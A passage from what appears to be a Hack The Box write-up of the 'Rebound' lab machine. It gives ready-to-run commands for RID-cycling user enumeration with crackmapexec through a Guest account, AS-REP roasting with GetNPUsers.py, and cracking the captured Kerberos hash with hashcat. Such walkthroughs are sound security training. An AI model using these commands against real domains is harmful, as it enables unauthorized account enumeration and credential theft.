 
Kerberos pre-authentication brute-forcing was successful, managing to uncover multiple users. Notably, we observed that the guest user isn't disabled, providing an opportunity for a RID cycling attack. Let's proceed with the RID cycling attack to gather information on Domain users and groups.


```bash
crackmapexec smb 10.10.11.231 -u 'Guest' -p '' --server-port 445 --rid-brute 20000
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_rid_brute.bmp)


The RID cycling attack worked like a charm, providing us with a list of Domain users and groups for the machine. Even though we already got some users through Kerberos Pre-Authentication brute-forcing, showcasing the effectiveness of RID cycling is a nice touch. Now, let's shift gears and try AS-REP roasting using GetNPUsers.py for our next move. 


```bash
# save users to a file 
crackmapexec smb 10.10.11.231 -u 'Guest' -p '' --server-port 445 --rid-brute 20000 | grep '(SidTypeUser)' | awk -F '\' '{print $NF}' | awk '{print $1}' | tee users.txt

GetNPUsers.py rebound.htb/ -usersfile users.txt -dc-ip 10.10.11.231 -format hashcat -outputfile as_rep_hashes.txt | grep -F -e '[+]' -e '[-]'
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_as_rep.bmp)


Roasting was a success, and now we've got a hash for the jjones user. Our next move is to attempt to crack the hash using hashcat, available at [https://hashcat.net/hashcat/](https://hashcat.net/hashcat/).


```bash
# Kerberos 5, etype 23, AS-REP
hashcat -m 18200 -a 0 -O -w 4 hash rockyou.txt
```

